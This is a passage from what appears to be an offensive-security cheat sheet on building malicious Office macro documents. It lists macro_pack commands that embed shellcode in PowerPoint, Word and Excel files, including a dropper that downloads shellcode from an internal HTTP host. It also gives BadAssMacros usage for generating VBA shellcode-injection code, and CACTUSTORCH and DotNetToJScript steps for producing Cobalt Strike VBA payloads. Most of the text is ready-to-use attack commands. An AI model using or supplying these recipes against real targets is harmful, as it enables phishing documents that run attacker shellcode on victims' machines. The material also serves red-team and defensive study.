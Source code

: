 ```powershell
echo x86.bin | macro_pack.exe -t SHELLCODE -o -G test.pptm –keep-alive
echo "x86.bin" "x64.bin" | macro_pack.exe -t AUTOSHELLCODE -o –autopack -G sc_auto.doc
echo "http://192.168.5.10:8080/x32calc.bin" "http://192.168.5.10:8080/x64calc.bin" | macro_pack.exe -t DROPPER_SHELLCODE -o --shellcodemethod=ClassicIndirect -G samples\sc_dl.xls
```

### DOCM - BadAssMacros

> C# based automated Malicous Macro Generator.

* https://github.com/Inf0secRabbit/BadAssMacros

```powershell
BadAssMacros.exe -h

# Create VBA for classic shellcode injection from raw shellcode
BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s classic -c <caesar_shift_value> -o <path_to_output_file>
BadAssMacros.exe -i .\Desktop\payload.bin -w doc -p no -s classic -c 23 -o .\Desktop\output.txt

# Create VBA for indirect shellcode injection from raw shellcode
BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s indirect -o <path_to_output_file>

# List modules inside Doc/Excel file
BadAssMacros.exe -i <path_to_doc/excel_file> -w <doc/excel> -p yes -l

# Purge Doc/Excel file
BadAssMacros.exe -i <path_to_doc/excel_file> -w <doc/excel> -p yes -o <path_to_output_file> -m <module_name>
```


### DOCM - CACTUSTORCH VBA Module

> CactusTorch is leveraging the DotNetToJscript technique to load a .Net compiled binary into memory and execute it from vbscript

* https://github.com/mdsecactivebreach/CACTUSTORCH
* https://github.com/tyranid/DotNetToJScript/
* CACTUSTORCH - DotNetToJScript all the things - https://youtu.be/YiaKb8nHFSY
* CACTUSTORCH - CobaltStrike Aggressor Script Addon - https://www.youtube.com/watch?v=_pwH6a-6yAQ

1. Import **.cna** in Cobalt Strike
2. Generate a new VBA payload from the CACTUSTORCH menu
3. Download DotNetToJscript
4. Compile it 
    * **DotNetToJscript.exe** - responsible for bootstrapping C# binaries (supplied as input) and converting them to JavaScript or VBScript
    * **ExampleAssembly.dll** - the C# assembly that will be given to DotNetToJscript.exe. In default project configuration, the assembly just pops a message box with the text "test"
5. Execute **DotNetToJscript.exe** and supply it with the ExampleAssembly.dll, specify the output file and the output type
    ```ps1
    DotNetToJScript.exeExampleAssembly.dll -l vba -o test.vba -c cactusTorch
    ```
6. Use the generated code to replace the hardcoded binary in CactusTorch
